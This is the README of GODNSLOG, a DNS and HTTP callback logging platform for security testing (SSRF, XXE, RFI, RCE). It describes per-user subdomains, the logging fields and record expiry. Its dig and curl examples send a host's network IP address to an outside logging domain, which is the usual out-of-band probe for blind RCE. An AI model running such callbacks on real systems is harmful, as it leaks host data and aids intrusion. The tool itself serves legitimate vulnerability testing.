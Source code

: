 # 简介

GODNS功能特性:
- 多用户
- DNSLOG
- HTTPLOG 记录
- DNS Rebinding
- 记录结果推送

CEYE.IO platform, which monitoring DNS queries and HTTP requests through its own DNS server and HTTP server, it can also create custom files as online payloads. It can help security researchers collect information when testing vulnerabilities (e.g. SSRF/XXE/RFI/RCE).

每一个`GODNSLOG`用户会分配一个唯一的域名，域名前缀为`shortId`是godnslog平台的唯一用户标识。 `安全设置`页面中如下图

![](basic-security.png)

`bkkpdcy7lo84.godnslog.com`是给当前用户分配的唯一域名，`bkkpdcy7lo84`为`shortId`区分用户, 三级域名`*.bkkpdcy7lo84.godnslog.com`下所有DNS请求记录均会被记录下来，`*`字段由用户自定义，建议跟扫描ID对应起来，用来关联扫描结果。 


GODNSLOG在设计中大量参考了[CEYE.IO](http://ceye.io)，包括本文档的内容也是，在此向`CEYE.IO`平台致敬。

## DNS LOG功能

每个用户分配一个唯一的三级域名，该域名或其子域名的所有解析记录均会被记录。
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


```bash
dig `/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`.ktqlujjpgc4j.godns.vip
```

系统生成域名为`{$variable}.ktqlujjpgc4j.godns.vip`，其中`ktqlujjpgc4j`是用户唯一shortId，`{$variable}`为用户自定义变量


![](dnslog.png)


DNSLOG 记录内容包含以下字段：
- domain
- IP
- 记录时间

请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时



## HTTP LOG功能

GODNSLOG 的`/log/`接口提供了HTTPLOG的功能，访问`http://*.{shortId}.godnslog.com/log/?p=httptest`的记录都会被记录下来

记录内容包含以下字段:

- IP
- Method
- URL
- User-Agent
- Content-Type 类型
- Data body数据
- 记录时间

```bash
curl http://ktqlujjpgc4j.godns.vip/log/`/sbin/ifconfig eth0|grep inet|grep -v 127.0.0.1|grep -v inet6|awk '{print $2}'|tr -d "addr:"`
```
请求记录超过设置的最长时间会被自动清理，自动清理时间设置范围是1-48小时


## 致谢

[CEYE.IO](http://ceye.io)
[dnslog](https://github.com/fanjq99/dnslog)
